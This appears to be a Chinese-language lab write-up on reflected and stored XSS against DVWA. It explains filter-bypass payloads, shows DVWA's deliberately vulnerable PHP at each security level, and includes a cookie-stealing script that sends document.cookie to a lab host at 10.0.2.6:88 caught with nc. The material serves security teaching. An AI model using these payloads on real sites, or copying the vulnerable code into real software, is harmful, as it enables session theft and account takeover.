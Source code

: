 ## XSS-跨站脚本执行漏洞实验

---

> XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞，XSS属于被动式且用于客户端的攻击方式，所以容易被忽略其危害性。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

## 实验环境

* kali虚拟机
* apache服务器
* DVWA（安全等级low）
* php+html+java
* 虚拟机配置如下图

![](/image/1.png)

## 实验过程

本次实验使用DVWA平台进行

### 反射型xss攻击

> 反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。从概念上可以看出，反射型XSS代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后XSS代码才能够攻击。

---

查看源码，可以看到，在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容

![](/image/4.png)

测试代码：

```java
<script> alert('xss')</script> //验证弹窗
<script>location='https://www.baidu.com'</script>  //重定向到百度
```

测试截图：

![](/image/2.png)

![](/image/3.png)

#### 获取cookie实验

* **实验原理**

>1. 黑客首先向服务器发送js脚本
>2. 服务器将含有js脚本的页面发给黑客
>3. 黑客将js脚本的页面的url发送给被攻击方
>4. 黑客获取被攻击方的cookie

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`，如图

![](/image/5.png)

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

![](/image/6.png)

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```

![](/image/7.png)

### 存储型xss攻击

> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

---

测试代码：

```html
<a href=http://10.0.2.6>登录</a>；//点击 ' 登录 '，直接跳转到http://10.0.2.6页面（自己搭建的服务器界面）
```

![](/image/8.png)

![](/image/9.png)

* 注：每次实验后都需重置数据库

#### 获取cookie实验

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

![](/image/6.png)

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```

![](/image/10.png)

![](/image/11.png)

## 防护手段

此处通过观察DVWA网站源码来观察如何一步一步进行安全防护

### 反射型xss攻击防护（Reflected XSS）

* 在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容,极易被攻击

```js
low Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

* 使用str_replace函数将输入中的<script>替换成空，把script脚本当做字符串来处理，但仍可以将将<script>可以写成<Script>，大小写混淆绕过

例如

```js
<Script>alert(‘xss’)</script>
```

或者嵌入绕过，可以将script嵌入到<script>中

`<scr<script>ipt>`

```js
<scr<script>ipt>alert('XSS1')</script> 
```

```js
Medium Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效，即只要遇到与scipt有关的字符都进行替换为空，输入不在含有script；（正则表达式中i表示不区分大小写）

仅预防script代码插入，可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码

```js
<body οnlοad=alert('XSS2')>
<a href=http://10.0.2.6>登录</a>
```

```js
High Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 当安全级别为impossible，使用htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，防止浏览器将其作为HTML元素（恶意代码）；不能实现反射型XSS攻击；

```js
Impossible Reflected XSS Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 存储型xss攻击防护（Stored XSS）

* 对输入的name参数和message参数并没有做XSS方面的过滤与检查，并且数据存储在数据库中，所以存在明显的存储型XSS漏洞；

```js
Low Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，使用str_replace函数将输入中的<script>删除，把script脚本当做字符串来处理，仍然存在存储型的XSS。

```js
<Script>alert(‘XSS’)</script>    #可以在name中将<script>可以写成<Script>，大小写混淆绕过
```

```js
Medium Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，High级别的代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效；（正则表达式中i表示不区分大小写）虽然在name参数中无法使用<script>标签注入XSS代码，但是可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码。

  ```html
  <body οnlοad=alert('XSS2')>
  <a href=http://10.0.2.6>登录</a>
  ```

```js


High Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 当安全级别为impossible时，对name、message参数均使用了htmlspecialchars函数进行编码，因此无法再通过name、message参数注入XSS代码，不能实现存储型XSS攻击。

```js
Impossible Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```



## 参考资料

1.http://xsspt.com/index.php?do=login

2.https://www.cnblogs.com/aeolian/p/11023238.html（[kali之DVWA]）

3.https://blog.csdn.net/weixin_43625577/article/details/89917893